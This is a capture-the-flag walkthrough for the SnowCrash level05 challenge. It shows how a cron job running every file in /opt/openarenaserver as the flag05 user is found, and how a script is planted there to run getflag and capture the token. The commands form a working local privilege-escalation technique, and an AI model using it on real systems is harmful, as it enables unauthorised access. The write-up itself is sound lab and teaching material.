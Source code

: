 # 1st Step
  
Nothing in level05 home folder so as in level00 let's FIND this first file who can run only as flag05  
```
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
level05@SnowCrash:~$
```  
***Notes** : Again, the owner of the file is `flag05`*  
Let's take a look at the code inside  
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```
Seems that this script will execute every files in `/opt/openarenaserver` then delete them.  
Cause this script is execute by `flag05` we should try to execute `getflag` !  
Only one question stay : When and how this script is execute ?  

# 2nd Step
First, I search all files who can run as root .. As you guess there is a lots ! But probably by chance et before specify my research (only certains filename, ...etc) I saw this line at the end of my result comand:  
```
level05@SnowCrash:~$ find / -user root 2>/dev/null
.
.
.
/rofs/var/mail/level05
.
.
```  
If we take a look inside the file:  
```
level05@SnowCrash:~$ cat /rofs/var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$
```  
We can see that every 2min, `/usr/sbin/openarenaserver` is execute !  

# 3rd Step
Now we can try to execute `getflag` with `/usr/sbin/openarenaserver`:  
```
level05@SnowCrash:~$ echo "/bin/getflag > /tmp/my_file" > /opt/openarenaserver/my_file
level05@SnowCrash:~$ cat /opt/openarenaserver/my_file
/bin/getflag > /tmp/my_file
level05@SnowCrash:~$
```  
Wait few minutes (2 max)  
```
level05@SnowCrash:~$ cat /tmp/my_file
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$ su level06
Password:
level06@SnowCrash:~$
```  
level05 passed !